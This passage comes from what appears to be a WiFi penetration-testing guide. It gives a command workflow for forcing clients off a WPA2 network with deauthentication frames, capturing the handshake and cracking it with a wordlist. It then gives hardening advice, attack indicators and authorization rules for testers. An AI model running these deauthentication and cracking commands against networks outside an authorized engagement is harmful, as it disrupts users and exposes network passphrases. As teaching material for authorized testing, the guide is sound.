 ### Scenario 3: WPA2 Handshake Capture

```bash
# Complete workflow
1. sudo airodump-ng -c [CHANNEL] --bssid [AP_MAC] -w handshake wlan0mon
2. Wait for client connection or force deauth
3. sudo aireplay-ng -0 5 -a [AP_MAC] -c [CLIENT_MAC] wlan0mon
4. Verify handshake in airodump-ng output
5. aircrack-ng -w wordlist.txt handshake-01.cap
```

## Defensive Considerations

### Network Hardening

```bash
# Recommendations for tested networks
1. Disable WPS if not needed
2. Use WPA3 or strong WPA2
3. Implement MAC address filtering (awareness of limitations)
4. Use strong, unique passphrases
5. Enable client isolation
6. Regular security assessments
```

### Detection and Monitoring

```bash
# Signs of WiFi attacks
- Unexpected deauthentication events
- Unknown devices in network logs
- Unusual traffic patterns
- Rogue access points detected
```

## Legal and Ethical Guidelines

### Before Testing

```bash
# Required documentation
1. Written authorization letter
2. Scope of engagement defined
3. Emergency contact information
4. Non-disclosure agreements signed
5. Insurance verification
```

### During Testing

```bash
# Best practices
1. Minimize service disruption
2. Document all activities
3. Avoid accessing sensitive data
4. Report critical findings immediately
5. Maintain professional conduct
```
